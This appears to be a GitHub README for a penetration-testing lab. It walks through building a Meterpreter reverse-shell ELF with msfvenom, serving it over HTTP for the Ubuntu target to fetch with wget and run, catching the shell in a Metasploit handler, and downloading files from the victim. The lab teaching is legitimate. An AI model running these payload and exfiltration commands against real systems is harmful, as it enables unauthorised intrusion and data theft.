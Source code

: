 # Linux-Reverse-Shell-File-Transfer-Lab
Project Overview

This project demonstrates a controlled penetration testing scenario using Kali Linux as an attacker and Ubuntu Linux as a target. The main goal is to create a Linux reverse shell payload, execute it on the Ubuntu VM, and gain controlled access to explore and transfer files — mimicking real-world penetration testing steps.

⚠️ Note: This is done in a safe, isolated lab environment for learning purposes only.

Tools Used

Kali Linux – Attacker machine

Ubuntu Linux – Target machine

Metasploit Framework (msfvenom, msfconsole)

Python3 HTTP server (python3 -m http.server)

Scrot – Linux screenshot tool

Basic Linux commands for file exploration

Step-by-Step Workflow
Step 1: Prepare Kali (Attacker)

Navigate to your working folder:

cd ~/Desktop


Create a Linux reverse shell payload with Metasploit:

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.16.127 LPORT=4444 -f elf > reverse.elf


LHOST = Kali IP address

LPORT = port to listen for connection

-f elf = ELF binary format (Linux executable)

Serve the payload via HTTP so the target Ubuntu can download it:

python3 -m http.server 8080

Step 2: Setup Ubuntu (Target)

Navigate to Desktop (or desired folder):

cd ~/Desktop


Download the payload from Kali:

wget http://192.168.16.127:8080/reverse.elf


Make it executable:

chmod +x reverse.elf


(Optional) Install screenshot tool:

sudo apt update && sudo apt install scrot -y

Step 3: Start Meterpreter Listener (Kali)

Open Metasploit console:

msfconsole


Configure a multi-handler for the reverse shell:

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.16.127
set LPORT 4444
exploit

Step 4: Execute Payload on Ubuntu
./reverse.elf


Kali should now show:

[*] Meterpreter session 1 opened ...
meterpreter >


✅ This confirms successful reverse shell connection.

Step 5: Explore Target System

From the Meterpreter session:

Check system info:

sysinfo


List files in current folder:

ls


Optional: upgrade to normal Linux shell:

shell
whoami


This gives a standard bash shell on Ubuntu.

Step 6: Take Screenshot on Ubuntu

From the Ubuntu shell:

scrot ~/Desktop/screenshot.png


Screenshot saved on Ubuntu Desktop.

Step 7: Transfer Files to Kali

From Meterpreter:

download /home/ubuntu/Desktop/screenshot.png /home/kali/Desktop/screenshot.png
download /home/ubuntu/Desktop/ossec.conf /home/kali/Desktop/ossec.conf


Use absolute paths to avoid errors.

✅ This demonstrates controlled file exfiltration from a target machine.

Step 8: Background Meterpreter Session (Optional)
background


Allows running multiple sessions without closing the current one.

Commands Summary
Task	Command
Create payload	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.16.127 LPORT=4444 -f elf > reverse.elf
Serve payload	python3 -m http.server 8080
Download payload	wget http://192.168.16.127:8080/reverse.elf
Make executable	chmod +x reverse.elf
Install scrot	sudo apt install scrot -y
Start Metasploit	msfconsole
Configure handler	use exploit/multi/handler
Set payload	set payload linux/x86/meterpreter/reverse_tcp
Set LHOST	set LHOST 192.168.16.127
Set LPORT	set LPORT 4444
Start listener	exploit
Upgrade shell	shell
Check user	whoami
Take screenshot	scrot ~/Desktop/screenshot.png
Download files	download /path/to/file /local/path
Background session	background
Diagram: Kali ↔ Ubuntu Flow
+----------------+                  +------------------+
|     Kali       |  Serve Payload    |      Ubuntu      |
|  Attacker VM   |-----------------> |  Victim VM       |
|                |  (reverse.elf)    |                  |
+----------------+                  +------------------+
        |                                   |
        | Open listener                     | Execute payload
        |                                   | ./reverse.elf
        v                                   v
+----------------+                  +------------------+
| Meterpreter    |<-----------------|  Reverse Shell   |
| session opens  |   Reverse TCP     |   established    |
| (Kali terminal)|                  | (Ubuntu terminal)|
+----------------+                  +------------------+
        |
        | Download files (screenshots, configs)
        v
+----------------+
| Kali Desktop   |
| Files saved    |
+----------------+

Learning Outcomes

How to create and execute Linux reverse shell payloads.

Gain controlled Meterpreter sessions on Linux targets.

Explore Linux filesystem and transfer files securely.

Practical understanding of penetration testing workflow.
